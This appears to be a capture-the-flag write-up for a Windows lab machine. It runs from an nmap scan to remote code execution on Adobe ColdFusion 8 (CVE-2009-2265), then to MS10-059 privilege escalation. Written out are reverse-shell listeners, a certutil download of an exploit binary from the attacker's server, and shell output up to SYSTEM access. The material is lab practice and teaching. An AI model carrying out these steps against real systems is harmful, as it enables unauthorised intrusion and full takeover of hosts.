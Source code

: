 ## Full TCP Port Scan (Aggressive) [235s]

```bash
sudo nmap -Pn -p- -A -T4 10.129.40.241
```

```text
Starting Nmap 7.95 (https://nmap.org) at 2025-03-17 13:31 EDT
Nmap scan report for 10.129.40.241
Host is up (0.059s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|2012|Phone|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (92%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows Embedded Standard 7 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 Professional or Windows 8 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   52.09 ms 10.10.16.1
2   76.62 ms 10.129.40.241

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 231.74 seconds
```

## Enumeration

### Port 8500 (HTTP - Adobe ColdFusion 8)
- Directory index exposed
- Version identified: Adobe ColdFusion 8
- Vulnerable to directory traversal and RCE (CVE-2009-2265)

```bash
curl http://10.129.40.241:8500/CFIDE/administrator/
```

## Exploitation

### ColdFusion RCE (CVE-2009-2265)
Exploit script: [Exploit-DB 50057](https://www.exploit-db.com/exploits/50057)

Modify exploit parameters:
```python
lhost = '10.10.16.4'   # Attacker IP
lport = 4444            # Listener port
rhost = "10.129.40.241" # Target IP
rport = 8500            # Target port
```

Start listener:
```bash
nc -lvnp 4444
```

Execute exploit:
```bash
python3 50057.py
```

Reverse shell connection:
```text
connect to [10.10.16.4] from (UNKNOWN) [10.129.40.241] 49260
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```

### User Flag
Found in tolis' Desktop:
```cmd
C:\Users\tolis\Desktop> type user.txt
d0c39********************
```

## Privilege Escalation

### System Analysis
- Windows Version: 6.1.7600 (Windows 7/2008 R2)
- Vulnerable to MS10-059 (Chimichurri)

### Exploit Transfer
On attacker machine:
```bash
python3 -m http.server 8888
```

On target:
```cmd
certutil -urlcache -f http://10.10.16.4:8888/Chimichurri.exe chimi.exe
```

### Privilege Escalation Execution
Start elevated listener:
```bash
nc -lvnp 1234
```

Execute exploit on target:
```cmd
C:\Users\tolis\Desktop> chimi.exe 10.10.16.4 1234
```
```text
/Chimichurri/-->This exploit gives you a Local System shell <BR>
/Chimichurri/-->Changing registry values...<BR>
/Chimichurri/-->Got SYSTEM token...<BR>
/Chimichurri/-->Running reverse shell...<BR>
/Chimichurri/-->Restoring default registry values...<BR>
```

### Root Shell
```text
connect to [10.10.16.4] from (UNKNOWN) [10.129.40.241] 53931
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Desktop> whoami
nt authority\system
```

### Root Flag
Found in Administrator's Desktop:
```cmd
C:\Users\Administrator\Desktop> type root.txt
c4ca35******************
```
